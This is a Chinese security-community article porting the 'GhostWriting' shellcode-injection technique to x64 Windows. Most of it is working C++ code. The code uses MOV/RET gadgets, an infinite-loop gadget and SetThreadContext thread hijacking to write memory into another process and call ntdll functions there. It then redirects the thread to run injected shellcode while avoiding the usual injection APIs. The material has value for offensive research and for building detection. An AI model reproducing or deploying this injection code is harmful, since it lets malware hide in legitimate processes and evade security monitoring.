# 无WriteProcessMemory CreateRemoteThread实现shellcode注入 GhostWriting x64实现-先知社区

> **来源**: https://xz.aliyun.com/news/18237  
> **文章ID**: 18237

---

# Ghost Writing

07年的文章 除作者的这个POC外网上没有找到太多相关的文章

<https://web.archive.org/web/20090722171318/http://blog.txipinet.com/2007/04/05/69-a-paradox-writing-to-another-process-without-openning-it-nor-actually-writing-to-it/>

我们在这里尝试搞出一个64位的实现

项目地址: <https://github.com/Arcueld/GhostWriting-X64>

首先介绍一下这个技术大概是什么概念

向一个进程注入shellcode执行 无需使用`openProcess WriteProcessMemory CreateRemoteProcess DebugActiveProcess` 之类的API

核心思想是找到类如

```
MOV [REG1],REG2
RET
```

的汇编指令

配合`SetThreadContext` API，MOV [REG1],REG2指令就能实现内存写入

同时需要找到`EB FE`指令（无限循环），使得`RET`指令跳转到此处形成执行滞留 防止崩溃

那么我们首先需要改造POC来寻找64位环境下的指令

```
MOV [r64],r64
RET
```

之类的指令

实际可用的指令并不多 而且这里全是易失寄存器 没法用



所以退而求其次 中间插点pop add rsp 都可以接收 手动平衡一下堆栈即可

寻找gadget的代码限于篇幅不在文章中展示 可自行在项目代码中查看





拿到gadget了之后 我们修改返回地址为`EB FE`的地址 死循环



```
GadgetResult gadget = FindBestMOVRETGadget(TRUE);
ULONG64 jmpAddress = FindJMPSELF();

if (!gadget.found || !jmpAddress) {
    std::cout << "[-] Failed to find necessary gadgets." << std::endl;
    return FALSE;
}

std::cout << "[+] Found gadget at: 0x" << std::hex << gadget.address << std::endl;
std::cout << "[+] Found JMP $ at: 0x" << std::hex << jmpAddress << std::endl;
std::cout << "[+] Gadget info:" << std::endl;
std::cout << "    - POP count: " << std::dec << gadget.popCount << std::endl;
std::cout << "    - ADD RSP bytes: 0x" << std::hex << gadget.addRspBytes << std::endl;
std::cout << "    - MOV offset: " << std::dec << gadget.offset << std::endl;

CONTEXT backupContext = { 0 };
CONTEXT workContext = { 0 };
backupContext.ContextFlags = CONTEXT_FULL;
workContext.ContextFlags = CONTEXT_FULL;

SuspendThread(hThread);
GetThreadContext(hThread, &backupContext);
GetThreadContext(hThread, &workContext);

PULONG64 writePointer = NULL;
PULONG64 writeItem = NULL;
int movOffset = 0;
ULONG64 idx = 0;

if (!DisassembleAndValidateMOV64((PUCHAR)gadget.address, &idx, &workContext, &writePointer, &writeItem, &movOffset)) {
    std::cout << "[-] Failed to analyze MOV gadget." << std::endl;
    ResumeThread(hThread);
    return FALSE;
}


// 计算需要平衡的堆栈空间 
// 返回地址 + 修复pop + 修复addRsp 
// 这里暂时不需要其它参数
ULONG64 bytesNeeded = (gadget.popCount * sizeof(ULONG64)) + gadget.addRspBytes;


*writePointer = (ULONG64)workContext.Rsp;
*writeItem = jmpAddress;
workContext.Rip = gadget.address;
workContext.Rsp -= bytesNeeded; // 平衡堆栈

SetThreadContext(hThread, &workContext);
ResumeThread(hThread);
```



到目前为止我们所作所为看起来没有意义 只是进了死循环

实际上并非如此 我们成功构造了一个返回地址指向`EB FE`的栈 之后在使用`MOV [REG1],REG2  
RET`赋值的时候可以不再关心返回值

于是我们可以写出如下复制内存的demo

因为一次写8字节 需要对齐一下

```
char* align_to_8_bytes(const char* input, size_t* aligned_len) {
    size_t original_len = strlen(input);  
    size_t padding = (8 - (original_len % 8)) % 8; 
    *aligned_len = original_len + padding;

    char* aligned_buf = (char*)malloc(*aligned_len);
    if (!aligned_buf) {
        return NULL;
    }

    memcpy(aligned_buf, input, original_len);
    memset(aligned_buf + original_len, '\0', padding);

    return aligned_buf;
}

auto WaitForThreadAutoLock(HANDLE hThread, PCONTEXT context, ULONG64 RIP) -> void {
    SetThreadContext(hThread, context);
    do
    {
        DWORD count = 0;
        

        do {
            count = ResumeThread(hThread);
        } while (count>0);
        
        Sleep(30);
        SuspendThread(hThread);
        GetThreadContext(hThread, context);
    } while (context->Rip != RIP);
}
// src 要八字节对齐
auto GhostMemcpy(LPVOID dst, PULONG64 src, HANDLE hThread, ULONG size) -> BOOLEAN {
    static GadgetResult gadget = FindBestMOVRETGadget(TRUE);
    static ULONG64 jmpAddress = FindJMPSELF();
    ULONG64 jmpRsp = 0;

    if (!gadget.found || !jmpAddress) {
        std::cout << "[-] Failed to find necessary gadgets." << std::endl;
        return FALSE;
    }
    
    std::cout << "[+] Found gadget at: 0x" << std::hex << gadget.address << std::endl;
    std::cout << "[+] Found JMP $ at: 0x" << std::hex << jmpAddress << std::endl;
    std::cout << "[+] Gadget info:" << std::endl;
    std::cout << "    - POP count: " << std::dec << gadget.popCount << std::endl;
    std::cout << "    - ADD RSP bytes: 0x" << std::hex << gadget.addRspBytes << std::endl;
    std::cout << "    - MOV offset: " << std::dec << gadget.offset << std::endl;

    CONTEXT workContext = { 0 };
    workContext.ContextFlags = CONTEXT_ALL;
    
    if (SuspendThread(hThread) == -1) {
        std::cout << "[-] Failed to suspend thread.errorCode" << GetLastError() << std::endl;
        return FALSE;
    }

    GetThreadContext(hThread, &workContext);
    
    PULONG64 writePointer = NULL;
    PULONG64 writeItem = NULL;
    int movOffset = 0;
    ULONG64 idx = 0;
    
    if (!DisassembleAndValidateMOV64((PUCHAR)gadget.address, &idx, &workContext, &writePointer, &writeItem, &movOffset)) {
        std::cout << "[-] Failed to analyze MOV gadget." << std::endl;
        ResumeThread(hThread);
        return FALSE;
    }

    
    // 计算需要平衡的堆栈空间 
    // 返回地址 + 修复pop + 修复addRsp 
    // 这里暂时不需要其它参数
    ULONG64 bytesNeeded = (gadget.popCount * sizeof(ULONG64)) + gadget.addRspBytes;


    *writePointer = (ULONG64)workContext.Rsp - gadget.offset;
    *writeItem = jmpAddress;
    workContext.Rip = gadget.address;
    workContext.Rsp -= bytesNeeded; // 平衡堆栈

    jmpRsp = workContext.Rsp;
    
    WaitForThreadAutoLock(hThread, &workContext, jmpAddress);


    ULONG64 round = size / sizeof(ULONG64);
    for (ULONG64 i = 0; i < round; i++) {
        workContext.Rsp = jmpRsp;
        *writePointer = (ULONG64)dst + i * sizeof(ULONG64) - gadget.offset;
        *writeItem = (ULONG64)*(src + i);
        workContext.Rip = gadget.address;

        WaitForThreadAutoLock(hThread, &workContext, jmpAddress);

    }

    
    std::cout << "[+] Memory write complete." << std::endl;
    return TRUE;
}
```





这里没有选择恢复进程原始的RIP notepad的GUI会卡死 但是我们的内存确实是写进去了

## 模拟调用

将对应参数写到栈里 然后修改RIP到`ntdll!NtProtectVirtualMemory`即可 我们先常规调用一下NtProtectVirtualMemory看看栈



对着构造 额外需要(4+3+1)\*sizeof(ULONG64)的长度 1个返回地址 3个指针的内容 4个shadowstack

```
ULONG64 NtProtectVirtualMemoryCallFrame[1 + 1 + 3] = {
    0, // retAddr
    0, // p ULONG
    0, // baseAddr
    0, // regionSize
    0, // oldProtect
};
```

指针就直接存栈上 值得注意的是shadow stack



如果要调用其他的函数 可以用类似的方法 完全可以封装一个函数来调 这块由于篇幅就不贴`NtProtectVirtualMemory`的调用代码了 代码放在后面扩展的地方

## 执行

原项目是通过`NtProtectVirtualMemory`修改栈的内存权限 直接将payload写到栈上 然后线程劫持改RIP 修改程序运行流程

我就直接先用`VirtualAllocEx`申请了

```
SIZE_T size = sizeof(shellcode);
LPVOID lpMem = VirtualAllocEx(hProcess, NULL, size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
std::cout << "[+] allocateMem at: " << std::hex << lpMem << std::endl;

// 初始化栈 jmp $
if (!initStack(hThread)) return 1;
LPVOID tmp = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
memcpy(tmp, shellcode, sizeof(shellcode));
GhostMemcpy(lpMem, (PULONG64)tmp, hThread, size);


if (!GhostNtProtectVirtualMemory(hProcess, hThread, (ULONG64)lpMem, size, PAGE_EXECUTE_READ)) {
    std::cout << "[-] GhostNtProtectVirtualMemory failed." << std::endl;
    return 1;
} else {
    std::cout << "[+] GhostNtProtectVirtualMemory successful!" << std::endl;
}

SuspendThread(hThread);
CONTEXT workContext = { 0 };
workContext.ContextFlags = CONTEXT_ALL;
GetThreadContext(hThread, &workContext);
workContext.Rip = (ULONG64)lpMem;
SetThreadContext(hThread, &workContext);
ResumeThread(hThread);
```



## 修复

现在解决一下需要手动触发的问题 这个好解决 获取一下窗口 postmessage就行了 因为GUI线程是消息驱动的

```
BOOL GetProcessIdFromHandle(HANDLE hProcess, DWORD& pid) {
    pid = GetProcessId(hProcess);
    return pid != 0;
}

BOOL CALLBACK EnumWindowsProc(HWND hwnd, LPARAM lParam) {
    DWORD wndPid = 0;
    GetWindowThreadProcessId(hwnd, &wndPid);

    if (wndPid == 0)
        return TRUE;

    DWORD targetPid = *(DWORD*)lParam;

    if (wndPid == targetPid) {
        PostMessage(hwnd, WM_USER, 0, 0);
    }

    return TRUE; 
}

auto PostUserMessageToProcessWindows(HANDLE hProcess) -> BOOLEAN{
    DWORD pid = 0;
    if (!GetProcessIdFromHandle(hProcess, pid)) {
        return FALSE;
    }

    if (!EnumWindows(EnumWindowsProc, (LPARAM)&pid)) {
        return FALSE;
    }

    return TRUE;
}

auto WaitForThreadAutoLock(HANDLE hProcess,HANDLE hThread, PCONTEXT context, ULONG64 RIP) -> void {
    SetThreadContext(hThread, context);
    do
    {
        PostUserMessageToProcessWindows(hProcess);

        DWORD count = 0;
        

        do {
            count = ResumeThread(hThread);
        } while (count>0);
        
        Sleep(10);
        SuspendThread(hThread);
        GetThreadContext(hThread, context);
    } while (context->Rip != RIP);
}

```

## 扩展

### 任意方法的调用

任意方法的调用 想了一下还是写了吧 也不难

考虑c++的模板方法

首先我们需要构造栈 要明确参数的个数 及其中的指针的个数



其中`HANDLE`这类typede下是指针的我们忽略 因为实际传参还是值而不是指针

代码如下 具体见注释

```
template<typename ReturnType, typename... Args>
ReturnType CallNtFunction(HANDLE hProcess, HANDLE hThread, const std::string& functionName, Args... args) {
    static HMODULE ntdll = GetModuleHandleA("ntdll.dll");
    LPVOID funcAddr = GetProcAddress(ntdll, functionName.c_str());
    constexpr size_t ArgCount = sizeof...(Args);

    // 忽略部分类型
    std::array<bool, ArgCount> isPointerArray;
    size_t index = 0;
    auto fillPointerArray = [&](auto&& arg) {
        using ArgType = std::decay_t<decltype(arg)>;
        isPointerArray[index++] = std::is_pointer_v<ArgType> && 
            !std::is_same_v<ArgType, HANDLE> && 
            !std::is_same_v<ArgType, HWND> && 
            !std::is_same_v<ArgType, HINSTANCE>;
    };
    (fillPointerArray(args), ...);
    
    size_t pointerCount = 0;
    for (bool isPtr : isPointerArray) {
        if (isPtr) pointerCount++;
    }
    
    constexpr size_t stackParamCount = ArgCount > 4 ? ArgCount - 4 : 0;
    
    // [返回地址] [Shadow Space (4*8字节)] [栈参数] [指针值区域]
    ULONG64 frameSize = 1 + 4 + stackParamCount;  // 返回地址 + shadow space + 栈参数
    
    // 总共需要的栈空间
    ULONG64 totalSize = frameSize + pointerCount;  // frameSize + 指针值区域
    ULONG64 bytesNeeded = (gadget.popCount * sizeof(ULONG64)) + gadget.addRspBytes + totalSize * sizeof(ULONG64);
    
    // 获取线程上下文
    CONTEXT workContext = { 0 };
    workContext.ContextFlags = CONTEXT_ALL;
    GetThreadContext(hThread, &workContext);
    
    // 计算新的栈指针
    ULONG64 rsp = workContext.Rsp - bytesNeeded;
    
    // 创建调用帧数组，包含所有栈内容
    std::vector<ULONG64> callFrame(totalSize, 0);
    
    // 设置返回地址
    callFrame[0] = jmpAddress;
    
    // Shadow space保持为0 (index 1-4)
    
    // 参数索引
    size_t argIndex = 0;
    
    // 栈参数起始位置 (跳过返回地址和shadow space)
    size_t stackIndex = 5;
    
    // 指针值起始位置 (在基本调用帧之后)
    size_t ptrValueIndex = frameSize;
    
    // 寄存器参数值
    ULONG64 regValues[4] = {0};
    
    // 创建一个数组来存储我们需要复制的内存块
    struct MemoryCopy {
        LPVOID target;
        ULONG64 value;
    };
    std::vector<MemoryCopy> memCopies;
    
    // 处理参数
    auto processArg = [&](auto&& arg, bool isPtr) {
        if (argIndex < 4) {
            if (isPtr) {
                ULONG64 remoteBufferAddr = rsp + ptrValueIndex * sizeof(ULONG64);
                callFrame[ptrValueIndex] = *(ULONG64*)arg;
                regValues[argIndex] = remoteBufferAddr;
                
                ptrValueIndex++;
            } else {
                regValues[argIndex] = (ULONG64)arg;
            }
        } else {
            if (isPtr) {
                ULONG64 remoteBufferAddr = rsp + ptrValueIndex * sizeof(ULONG64);
                callFrame[ptrValueIndex] = *(ULONG64*)arg;
                callFrame[stackIndex] = remoteBufferAddr;
                
                ptrValueIndex++;
                stackIndex++;
            } else {
                callFrame[stackIndex++] = (ULONG64)arg;
            }
        }
        argIndex++;
    };
    
    size_t paramIndex = 0;
    auto processAllArgs = [&](auto&& arg) {
        processArg(arg, isPointerArray[paramIndex++]);
    };
    (processAllArgs(args), ...);
    
    for (size_t i = 0; i < totalSize; i++) {
        GhostMemcpy((LPVOID)(rsp + i * sizeof(ULONG64)), &callFrame[i], hProcess, hThread, sizeof(ULONG64));
    }
    
    workContext.Rcx = regValues[0];
    workContext.Rdx = regValues[1];
    workContext.R8 = regValues[2];
    workContext.R9 = regValues[3];
    workContext.Rsp = rsp;
    workContext.Rip = (ULONG64)funcAddr;
    
    WaitForThreadAutoLock(hProcess, hThread, &workContext, jmpAddress);
    
    SuspendThread(hThread);
    GetThreadContext(hThread, &workContext);
    ResumeThread(hThread);
    
    return static_cast<ReturnType>(workContext.Rax);
}

```

### 从栈上读指针的值

现在能进行调用了 但是有些函数是通过参数写回数据的 比如`NtAllocateVirtualMemory` 分配的地址会写回到`BaseAddress` 我们需要从栈上读取

具体函数如下

第三个参数`pointerIndex` 用于指明取第几个指针的值

```
template<typename T>
T GetGhostFunctionPointerResult(HANDLE hProcess, HANDLE hThread, int pointerIndex) {
    CONTEXT workContext = { 0 };
    workContext.ContextFlags = CONTEXT_ALL;
    GetThreadContext(hThread, &workContext);
    
    // 判断是否处于JMP $
    if (workContext.Rip != jmpAddress) {
        return T();  
    }
    
    // 计算指针值在栈上的位置
    // 第一个指针值位置在 RSP + 0x30  要加上ret的
    ULONG64 pointerValueAddress = workContext.Rsp + (6 * sizeof(ULONG64)) + (pointerIndex - 1) * sizeof(ULONG64);
    
    T result;
    SIZE_T bytesRead;
    if (!ReadProcessMemory(hProcess, (LPCVOID)pointerValueAddress, &result, sizeof(T), &bytesRead)) {
        return T();  
    }
    
    return result;
}
```



# 项目地址

<https://github.com/Arcueld/GhostWriting-X64>
